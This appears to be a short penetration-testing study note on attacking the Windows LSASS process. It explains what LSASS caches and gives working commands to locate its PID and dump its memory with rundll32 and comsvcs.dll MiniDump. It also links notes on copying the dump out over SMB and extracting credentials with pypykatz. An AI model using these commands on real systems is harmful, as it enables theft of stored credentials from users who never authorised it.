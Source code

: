 # Attacking LSASS

* \
  Upon initial logon, LSASS will:
  * Cache credentials locally in memory
  * Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
  * Enforce security policies
  * Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

### Dumping LSASS Process Memory

#### Task Manager Method

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* A file called `lsass.DMP` is created and saved in:

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

* to copy files use
  * [Create SMB server Linux (HACK)](app://obsidian.md/Create%20SMB%20server%20Linux%20\(HACK\))

#### Rundll32.exe & Comsvcs.dll Method

* modern anti-virus tools recognize this method as malicious activity.
* Before issuing the command to create the dump file, we must determine what process ID (`PID`) is assigned to `lsass.exe`.
* This can be done from cmd or PowerShell:

**Finding LSASS PID in cmd**

```cmd-session
tasklist /svc
```

**Finding LSASS PID in PowerShell**

```powershell-session
Get-Process lsass
```

**Creating lsass.dmp using PowerShell**

```powershell-session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

* to copy files use
  * [create-smb-server-linux-hack.md](create-smb-server-linux-hack.md "mention")

### Using Pypykatz to Extract Credentials

* [pypykatz.md](pypykatz.md "mention")
